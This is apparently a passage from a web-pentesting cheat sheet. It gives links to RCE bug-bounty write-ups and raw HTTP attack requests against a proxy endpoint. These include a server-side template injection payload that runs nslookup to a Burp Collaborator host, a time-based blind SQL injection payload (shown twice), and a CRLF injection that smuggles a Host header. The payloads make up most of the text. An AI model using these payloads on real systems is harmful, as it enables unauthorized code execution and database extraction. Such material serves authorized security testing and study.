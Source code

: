 * [https://medium.com/@abhishake100/rce-via-apache-struts2-still-out-there-b15ce205aa21](https://medium.com/@abhishake100/rce-via-apache-struts2-still-out-there-b15ce205aa21)
* [https://medium.com/bugbountywriteup/how-i-got-5500-from-yahoo-for-rce-92fffb7145e6](https://medium.com/bugbountywriteup/how-i-got-5500-from-yahoo-for-rce-92fffb7145e6)
* [https://blog.cobalt.io/how-customer-collaboration-during-a-pentest-can-lead-to-finding-a-remote-code-execution-rce-da59cb3d1dfb](https://blog.cobalt.io/how-customer-collaboration-during-a-pentest-can-lead-to-finding-a-remote-code-execution-rce-da59cb3d1dfb)
* [https://twitter.com/0x01alka/status/1112060432691412998](https://twitter.com/0x01alka/status/1112060432691412998)

### SSTI

{% embed url="https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/" %}

{% embed url="http://ha.cker.info/exploitation-of-server-side-template-injection-with-craft-cms-plguin-seomatic/" %}

```http
GET /Endpoint-To-Proxy/(${T(java.lang.Runtime).
 getRuntime().exec('nslookup id.burpcollaborator.net')}) HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
```

### SQLi

```http
GET /Endpoint-To-Proxy/
'xor(if(mid(database(),1,1)=0x41,sleep(30),0))or HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
```

```http
GET /Endpoint-To-Proxy/
'xor(if(mid(database(),1,1)=0x41,sleep(30),0))or HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
```

{% embed url="https://hackerone.com/reports/758654" %}

### CRLF

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Origin: https://www.company.com
Content-Type: application/json
Content-Length: Number
{
"parameter":"value%0A%01%09Host:%20id.burpcollaborator.net"
}
```

